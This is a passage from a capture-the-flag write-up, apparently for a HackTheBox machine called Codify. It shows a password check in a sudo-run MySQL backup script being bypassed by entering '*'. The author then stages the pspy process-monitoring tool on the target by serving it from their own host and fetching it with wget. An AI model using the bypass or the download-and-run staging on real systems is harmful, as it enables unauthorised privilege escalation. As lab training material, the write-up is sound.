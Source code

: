 However, entering “\*” (the input is not shown on the terminal because the `-s` flag is used with `read`) bypasses the check:

```
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!

```

To watch for the processes, I’ll upload PSpy. I’ll download the [latest release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) (v1.2.1 at the time of writing this post), and save it in `/opt` on my host. Now I’ll serve that directory with a Python web server:

```
oxdf@hacky$ python -m http.server 80 -d /opt/
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

I’ll fetch it from Codify:

```
joshua@codify:/dev/shm$ wget 10.10.14.6/pspy64
--2024-04-04 16:37:21--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  4.34MB/s    in 0.7s

2024-04-04 16:37:22 (4.34 MB/s) - ‘pspy64’ saved [3104768/3104768]

```

I’ll set it as executable and run it:

```
joshua@codify:/dev/shm$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
...[snip]...

```
